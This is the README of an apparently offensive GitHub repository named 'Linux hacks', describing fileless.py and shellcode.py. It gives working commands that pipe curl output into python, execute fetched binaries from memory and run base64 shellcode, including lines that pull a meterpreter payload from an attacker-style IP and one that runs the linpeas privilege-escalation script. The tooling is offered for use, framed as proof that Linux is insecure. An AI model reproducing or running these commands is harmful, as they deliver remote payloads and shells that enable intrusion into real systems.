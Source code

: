 # Linux hacks
A collection of mostly security-related hacks for Linux operating systems. It is supposed to show that, while everyone is locking down their PowerShell and .NET in the Windows world, Linux is pretty much an attackers playground and is _not at all a more secure operating system_ (at least not by default).

## [fileless.py](fileless.py)
Uses python to fetch a binary via http(s), write it to an in-memory file and execute it. For example to run the latest version of linpeas with all checks enabled you can just enter the following in any bash-compatible terminal:
```bash
python <(curl -s https://raw.githubusercontent.com/tav-r/Linux-hacks/main/fileless.py) https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh -a
```
of course this is pointless since you could also just run
```bash
bash <(curl -s https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh) -a
```
but maybe something like this?
```bash
python <(curl -s http://10.10.14.3/fileless.py) http://10.10.14.3/meterpreter
```

## [shellcode.py](shellcode.py)
Run shellcode from command line. First you need some base64-encoded shellcode:
```bash
nasm -f elf64 -o /tmp/shellcode.o shellcode.asm; ld -o /tmp/shellcode /tmp/shellcode.o; rm /tmp/shellcode.o
printf $(objdump -d /tmp/shellcode | egrep '^ ' | cut -f2 | sed -r -e 's/([0-9,a-f]{2})/\\x\1/g' -e 's/ //g' | tr -d '\n') | base64 | tr -d '\n'; echo; rm /tmp/shellcode
```
now we can run it (this simply spawns `/bin/sh`):
```
python shellcode.py McBIu9GdlpHQjJf/SPfbU1RfmVJXVF6wOw8F
```
of course we could do some more interesting stuff with this, like for example:
```
python <(curl 10.10.14.3/shellcode.py) $(curl --output - 10.10.14.3/meterpreter.bin | base64 | tr -d '\n')
```
